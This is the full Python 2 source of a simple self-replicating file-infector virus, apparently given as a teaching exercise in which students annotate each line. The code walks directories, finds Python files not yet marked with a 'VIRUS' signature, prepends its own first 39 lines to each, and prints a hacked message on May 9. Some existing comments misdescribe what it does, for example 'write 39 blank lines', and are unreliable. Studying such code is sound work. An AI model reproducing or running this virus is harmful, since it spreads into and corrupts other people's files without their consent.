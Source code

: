 #!/usr/bin/python
# Load Python and import the OS and DATETIME Libraries
import os
import datetime

# Define a variable named SIGNATURE and set it to VIRUS
SIGNATURE = "VIRUS"

# Define a function called locate which identifies a list of files as targets and sorts out previously infected files.
def locate(path):
    files_targeted = []  # Creates an empty array
    filelist = os.listdir(path)  # Get list of files from the current folder
    for fname in filelist:  # Loop through all files in the filelist
        if os.path.isdir(path+"/"+fname):  # Check if path is an existing directory
            files_targeted.extend(locate(path+"/"+fname))  # Adds this current path and files to the files_targeted list
        elif fname[-3:] == ".py":  # Check if the file is Python and has the signature, if so break, else add it to the list
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)  # Adds file to list if it is not tagged as infected
    return files_targeted  # Returns the newly inflated files_targeted list

# Define function infect and enumerate list of files_targeted, then write 39 blank lines into the beginning of the file
def infect(files_targeted):
    virus = open(os.path.abspath(__file__))  # Select the file
    virusstring = ""  # Set a blank line
    for i,line in enumerate(virus):  # For each line in a file up to line 39, loop
        if 0 <= i < 39:
            virusstring += line  # Add the contents of the first 39 lines to the variable virusstring
    virus.close
    for fname in files_targeted:  # For each file in the list, read the contents fo the file
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")  # while in the for loop, write the contents
        f.write(virusstring + temp)  # but include the first 39 lines from the first selected file
        f.close()

# Define function to check that the date is May 9th and print the message.
def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:  # Test if the month and day are 5 and 9
        print "You have been hacked"


# First line gathers the filelist from the current path
# Second line bloats the files
# Third line prints a message on the 9th of May
files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()

# Perform an analysis of the Python-based code.
# Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
# Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
# Insert comments above the final three lines explaining how the functions are called and what this script appears to do.
